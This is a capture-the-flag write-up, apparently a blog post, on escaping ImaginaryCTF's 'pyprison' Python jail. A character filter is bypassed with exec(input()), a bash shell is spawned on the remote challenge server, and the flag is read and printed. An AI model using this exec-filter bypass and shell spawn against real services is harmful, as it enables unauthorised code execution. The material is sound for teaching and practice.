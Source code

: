 ```yaml
---

title: pyprison [IMAGINARY CTF] [MISC]

date: 2022-07-18 11:28:05 +0200

categories: [python,ctftime]

tags: [CTFTIME]

---
```


## pyprison

 > Given file


```python
#!/usr/bin/env python3

while True:
  a = input(">>> ")
  assert all(n in "()abcdefghijklmnopqrstuvwxyz" for n in a)
  print("Execing")
  exec(a)
```

- We're restricted to these constraints.
- We can only use lowercase alphabets and parentheses 
- Here we can do anything with these chars
- Let's get an input and pass it to exec

```c++
➜  misc python3 pyprison.py
>>> exec(input())
Execing
print('Meaw Meaw')
Meaw Meaw
```
- Here you can see it's executed our input
- Now let's try to get a shell

> in remote server

```c++
➜  misc nc pyprison.chal.imaginaryctf.org 1337
== proof-of-work: disabled ==
>>> exec(input())
import os; os.system('/bin/bash')
whoami
user
id
uid=1000(user) gid=1000(user) groups=1000(user)
```

> Now read the flag

```c++
cat flag.txt
ictf{pyprison_more_like_python_as_a_service_12b19a09}
```

flag: `ictf{pyprison_more_like_python_as_a_service_12b19a09}`
